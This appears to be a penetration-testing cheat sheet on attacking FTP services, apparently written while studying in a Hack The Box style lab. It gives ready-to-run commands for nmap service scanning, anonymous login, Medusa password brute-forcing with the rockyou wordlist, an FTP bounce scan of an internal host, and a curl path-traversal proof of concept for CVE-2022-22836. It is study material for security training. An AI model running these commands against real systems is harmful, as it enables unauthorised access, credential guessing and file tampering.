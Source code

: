

## **Nmap FTP scan**

```bash
sudo nmap -sC -sV -p 21 192.168.2.142

```

---

## **Anonymous FTP Login**

**Connect using FTP client:**

```bash
ftp 192.168.2.142
# Username: anonymous
# Password: [press Enter]

```

**FTP Commands:**

```
ls            # List directory
cd <dir>      # Change directory
get <file>    # Download file
mget *        # Download multiple files
put <file>    # Upload file
mput *        # Upload multiple files
```

---

## **Brute Force FTP Login**

### **Using Medusa to Bruteforce FTP:**

```bash
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
```

---

## **FTP Bounce Attack**

**Using Nmap to scan internal host via vulnerable FTP server:**

```bash
nmap -Pn -v -n -p80 -b <anonymous:password@10.10.110.213> 172.17.0.2

```

---

**Notes:**

- FTP default port: `TCP/21`
- Risky configurations: Anonymous login with write access
- Useful for: Downloading/uploading files, potentially executing scripts via other vulnerabilities (e.g., LFI)
- Secure alternatives: SFTP or FTPS

# CoreFTP before build 727

- [https://nvd.nist.gov/vuln/detail/CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836)
- Vulnerability is an FTP service that does not correctly process the HTTP PUT request and leads to an authenticated directory/path traversal

```python
z3tssu@htb[/htb]$ curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

